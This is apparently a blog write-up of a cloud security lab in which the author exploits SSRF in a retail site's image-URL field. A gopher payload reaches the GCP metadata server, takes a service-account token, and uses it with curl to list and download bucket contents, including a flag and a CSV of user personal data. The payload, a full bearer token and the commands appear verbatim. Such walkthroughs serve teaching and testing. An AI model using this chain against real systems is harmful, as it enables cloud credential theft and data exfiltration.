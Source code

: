 ```yaml
---
layout: post
title:  "Exploit SSRF with Gopher for GCP Initial Access"
date:   2024-05-26 21:39:54 +0530
---
```


## Scenario 

The scenario of the lab is that You have recently joined a red team and are on an engagement for the client Gigantic Retail. In scope is their on-premise and cloud environments. As the cloud specialist, you are called upon to get initial access to their infrastructure, starting with an identified IP address.

 
## Initial Entry point  

| | |
| --- | --- |
| **Type** | **Value** |
| IP Address | 35.226.245.121<br> |


## Solution

 

With the IP Address, I’ve tried to access it directly and found that port 80 is open and hosts a kind of retail website 

 

![]({{ site.baseurl }}/assets/images/ssrf.png) 



But there is an interesting functionality where you can specify your profile from a remote URL which is an interesting place to start looking out for SSRF

 

![]({{ site.baseurl }}/assets/images/ssrf2.png)  

 

Intercepting the request and looking into the source of the website 

 

![]({{ site.baseurl }}/assets/images/ssrf3.png) 

 

In the above, as you can see when we pass the image URL to fetch the image.. it calls through `url` parameter and then looks into the source, where you can see inside `<script>` we have `document.addEventListener('DOMContentLoaded', function() {...})` where it will wait until HTML content to be loaded and once it loaded it tells the `profile-photo` element where it sets it to `url` which we passed

 

But when u pass some reachable URL we may receive a pingback and even though it says “Not an Image”

 

In the Image URL replayed the value with the following URL [http://metadata.google.internal](http://metadata.google.internal "http://metadata.google.internal") which is the metadata for Google cloud just like in AWS which is `169.254.169.254` and URL processed and discloses `computeMetadata` in the response

 

![]({{ site.baseurl }}/assets/images/ssrf4.png) 

 

But results in 403 when we tried to hit the [http://metadata.google.internal/computeMetadata/v1/](http://metadata.google.internal/computeMetadata/v1/) because we have to pass the header value which is `Metadata-Flavor: Google`⁠

 

 

![]({{ site.baseurl }}/assets/images/ssrf5.png) 

 

 

But even after passing the header `Metadata-Flavor: Google` we are still receiving the 403

 

![]({{ site.baseurl }}/assets/images/ssrf6.png)  

 

Looking into the following blog [here](https://blog.codydmartin.com/gcp-cloud-function-abuse/ "https://blog.codydmartin.com/gcp-cloud-function-abuse/") from Cody about abusing Google Cloud functions through gopher and got an idea of constructing the gopher payload but we need how the internal request looks like 

 

```sh
GET /computeMetadata/v1 HTTP/1.1
Host: metadata.google.internal
Accept: */*
Metadata-Flavor: Google
```

 

Converting this HTTP request into the gopher

 

```bash
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

 

When passing the payload through the `url` parameter we didn’t 403 instead our request was successfully parsed disclosing the execution and further paths inside cloud metadata 

 

![]({{ site.baseurl }}/assets/images/ssrf7.png) 

 

Accessing `/instance` further reveals internal paths and we have to access `service-accounts` 

 

![]({{ site.baseurl }}/assets/images/ssrf8.png) 

 

Accessing that `service-accounts` reveals that other than `default` we have other one service account which is [bucketviewer@gr-proj-1.iam.gserviceaccount.com](mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com "mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com") 

 

 

![]({{ site.baseurl }}/assets/images/ssrf9.png) 

 

> Service accounts in Google Cloud Platform (GCP) are special types of accounts used to grant specific permissions to applications, virtual machines, and other services within GCP, enabling them to interact with other Google Cloud services

 

Adding to that `/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token` will reveal the token of the specific account just like iam credentials in AWS via metadata 

 

![]({{ site.baseurl }}/assets/images/ssrf11.png) 

 

Checked the token using the curl command and found that the token is valid and online 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=ya29.c.c0AY_VpZgBbzy_M8iNeYS9J1McBJnQAPLsAUQ27C6g07VyUz3FPe_sIi5GJtPDpMHZcnSF8jVjuNyIpfpMvJ6b619ENrMbUXosdRvOqzpDqTAg2HmVJw14RvAmynCsx3MzQcsWq_hpKCVjlXZo7ymOop1CuHMbi7II2Gd7HxigAaHbqDCu5nlAJxYARFfri3g9avb3N4B4UFfiBMCbhQp6U1YG5-lOI-H0RsYxBSySHv5TelWXDQRC3giFz7H6yg50mV3A7Rw5f108qY89BL3je6vGoPxmBX63a-OO6Sj3UxmwidYZms9oVtjIXJOl_V95ktagGehAvNamq0ICOLmLrvWLLAqLbIcyD7OgurWcxrM3IWTIUgMrC8C7vXhzMJB2T393Kde48XIUag5loxhk3o1s8kMv8b5ZnV8j4fsYZF11RR7eixWetn4iJMYxQg0g3Z7ucBu7u_p2w49M0f07435yqpRet6y_raxBwZik_b_lpod3ZV1e7byo7XzmqYFYWcjUnort8Xp2sSI7_gnj_YVzdsQRYXQ663MylV3XYOdZ-mck6911SdSpvrwSoV9sY2I0fXWyaIYIZn6bjt2x4zn7kcYXBxaiBz6dJRuwik0f2yg1mWbXhc4da04xqY3Q-3hSX1eolcisuvFsyIZ-5ww80r0_IvR3oWdnhMkvslxoo1kwm61cRYcj1r0hOR91Iu8BnebUz8F9t1kRs6WxJxm0idI1B8J9kOmhF0y2Zs-B01993vatMBofkhcu7pp0r6dieb3VBXY3yS6bmSh4Syrjlp87xJ5o6dQ-iVJsUpb8B7S4ucnRdzyJWpbvhgxW9i1F15vwof6wIy5Srtqpcdr6agphwbRdQWeZuBQ1mp7xrtuV0jxtRu5daxBwZX9Z7QdfV5-Iq5fQB1kOo9dYFQSQ5yY818xtvySeRqunt2VXRlm2bwMs3-w9_WcO_RcSwXn01fleM7u2IS3pq-onh9Y3tM9XSFah6SeY48bOfo3fUyYSqk7rIm1" https://www.googleapis.com/oauth2/v1/tokeninfo

{
 "issued_to": "113150342444479982060",
 "audience": "113150342444479982060",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 2507,
 "access_type": "online"
}
```

 

Further, we know that the images for the shop website are being hosted here 

 

![]({{ site.baseurl }}/assets/images/ssrf10.png) 

 

 

From Google docs [here](https://cloud.google.com/storage/docs/authentication#apiauth "https://cloud.google.com/storage/docs/authentication#apiauth"), we gotta know about an API call to access Google storage buckets 

 

```sh
curl -H "Authorization: Bearer $GOOGLE_TOKEN" "https://storage.googleapis.com/storage/v1/b/gigantic-retail/o"
```

 

Got to know the information about the objects and received a huge chunk of data but these two look interesting interesting 

 

```json
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/flag.txt/1703771329072518",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media",
 "name": "userdata/flag.txt",
 "bucket": "gigantic-retail",
 "generation": "1703771329072518",
 "metageneration": "1",
 "contentType": "text/plain",
 "storageClass": "STANDARD",
 "size": "33",
 "md5Hash": "J+PDkjepBufLwKoiCflv2w==",
 "crc32c": "/H+7+Q==",
 "etag": "CIab5OaisoMDEAE=",
 "timeCreated": "2023-12-28T13:48:49.125Z",
 "updated": "2023-12-28T13:48:49.125Z",
 "timeStorageClassUpdated": "2023-12-28T13:48:49.125Z"
 },
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/user_data.csv/1703877006716190",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media",
 "name": "userdata/user_data.csv",
 "bucket": "gigantic-retail",
 "generation": "1703877006716190",
 "metageneration": "1",
 "contentType": "text/csv",
 "storageClass": "STANDARD",
 "size": "2388",
 "md5Hash": "JMvLqhSoe2s9FX6JlXGmxw==",
 "crc32c": "2XJ9cA==",
 "etag": "CJ7a572stYMDEAE=",
 "timeCreated": "2023-12-29T19:10:06.754Z",
 "updated": "2023-12-29T19:10:06.754Z",
 "timeStorageClassUpdated": "2023-12-29T19:10:06.754Z"
 }
```

 

Accessing `mediaLink` with the same curl command with little correction will reveal the flag 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media"

9cee2dec5c28e047022f8ba9e0d7ca62
```

 

You can ask what is the other interesting file which is user data disclosure where it highlights during ur pentest 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"


Name,Address,PhoneNumber,Email,Job Title,Company
John Doe,123 Main St, Seattle, WA 98101,555-1234,john.doe@novasoft.com,Software Engineer,Nova Software Solutions
Jane Smith,456 Oak Ave, Boston, MA 02110,555-5678,jane.smith@bluebaytech.com,Project Manager,Blue Bay Technologies
Bob Johnson,789 Pine Rd, Austin, TX 78701,555-9012,bob.johnson@creativedge.com,Graphic Designer,Creative Edge Design
Alice Williams,101 Cedar Lane, Denver, CO 80202,555-3456,alice.williams@peakhr.com,HR Specialist,Peak Human Resources
Charlie Brown,202 Maple Blvd, Chicago, IL 60601,555-7890,charlie.brown@marketgenius.com,Marketing Director,Market Genius Inc.
Emily Davis,303 Elm Street, San Francisco, CA 94102,555-2345,emily.davis@zenithfinance.com,Financial Analyst,Zenith Finance
Michael Miller,404 Birch Lane, New York, NY 10001,555-6789,michael.miller@techfrontier.com,IT Consultant,Tech Frontier
Olivia Wilson,505 Pinecrest Rd, Miami, FL 33101,555-0123,olivia.wilson@sunrealty.com,Real Estate Agent,Sunshine Realty
David Taylor,606 Oakwood Ave, Philadelphia, PA 19106,555-4567,david.taylor@arcopartners.com,Architect,Arco Partners
Sophia Anderson,707 Maple Court, Las Vegas, NV 89101,555-8901,sophia.anderson@nextstepsales.com,Sales Manager,Next Step Sales
Daniel Harris,808 Cedar Rd, Atlanta, GA 30301,555-2341,daniel.harris@webworlddev.com,Web Developer,Web World Development
Grace Thomas,909 Birch Blvd, Minneapolis, MN 55401,555-6785,grace.thomas@biogenresearch.com,Clinical Researcher,Biogen Research Labs
Isaac Martinez,1010 Oak Lane, Portland, OR 97201,555-0129,isaac.martinez@eduworld.com,Teacher,EduWorld Schools
Ella Rodriguez,1111 Pine Ave, Dallas, TX 75201,555-4563,ella.rodriguez@mediavista.com,Journalist,Media Vista
James Smith,1212 Cedar Street, Orlando, FL 32801,555-8907,james.smith@legalpros.com,Attorney,Legal Pros LLP
Ava Johnson,1313 Elm Rd, Phoenix, AZ 85001,555-2349,ava.johnson@idinteriors.com,Interior Designer,Innovative Designs
Liam Davis,1414 Maple Lane, Raleigh, NC 27601,555-6783,liam.davis@gourmetchef.com,Chef,Gourmet Chef Culinary
Mia Wilson,1515 Pine Blvd, Cleveland, OH 44101,555-0127,mia.wilson@sigmapharma.com,Pharmacist,Sigma Pharmacy
Noah Taylor,1616 Birch Ave, Nashville, TN 37201,555-4561,noah.taylor@truetecheng.com,Engineer,TrueTech Engineering
Sophie Brown,1717 Oakwood Rd, Kansas City, MO 64101,555-8905,sophie.brown@fitnation.com,Fitness Trainer,FitNation
```